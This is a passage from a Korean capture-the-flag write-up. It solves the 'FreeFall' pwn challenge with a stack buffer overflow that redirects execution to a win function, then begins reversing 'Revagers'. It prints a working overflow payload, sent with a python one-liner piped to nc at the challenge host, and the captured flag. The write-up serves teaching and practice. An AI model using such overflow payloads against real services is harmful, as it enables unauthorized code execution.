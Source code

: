 main 함수 위의 win 이라는 함수가 수상함

아마도 system(”cat flag.txt’) 와 유사한 기능을 하는 함수로 유추

`disassemble win` 으로 함수 디스어셈블

![Untitled](/images/FreeFall%20f47b008697064626a85992495e363dfe/Untitled%204.png)

시작 주소 확보 (이때 x64 기반인것을 알 수 있다)

![Untitled](/images/FreeFall%20f47b008697064626a85992495e363dfe/Untitled%205.png)

char format[32]; 로 선언된 변수에 gets() 함수를 호출하는 것을 확인

따라서 BUF 32byte + SFP 4byte + RET 이므로

총 40byte의 더미 데이터와 위에서 확보한 win 함수부분을 이용해 익스플로잇하면

```c
python -c "print('A' * 40 + '\x72\x11\x40\x00\x00\x00\x00\x00')" | nc freefall.chall.winja.site 18967
```

![Untitled](/images/FreeFall%20f47b008697064626a85992495e363dfe/Untitled%206.png)

`flag{7fbec6d149f9878499b4acd05e06c692_Did_B4BY_MaK3_YOu_OVeRCrY}`

다음과 같은 플래그 값을 얻을 수 있다.

## 2. [Rev] 100점 - Revagers

### 문제 설명

> Help Yondu and the 40 ravagers to steal the flag.

### 풀이

파일 다운 후 메모장으로 열어 파일 시그니처 확인

![Untitled](/images/Revagers%20140a1ab671124bb792ed0aba60744806/Untitled.png)

손쉽게 ELF 파일, 즉 리눅스 실행 파일인 것을 알 수 있음

바로 IDA로 오픈

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  if ( a1 == 2 )
  {
    if ( strlen(a2[1]) == 41 )
      sub_1159(a2[1]);
    else
      printf("[!] Incorrect Passcode");
  }
  else
  {
    printf("[!] ERR! Usage ./vault <Passcode>");
  }
  return 0LL;
}
```

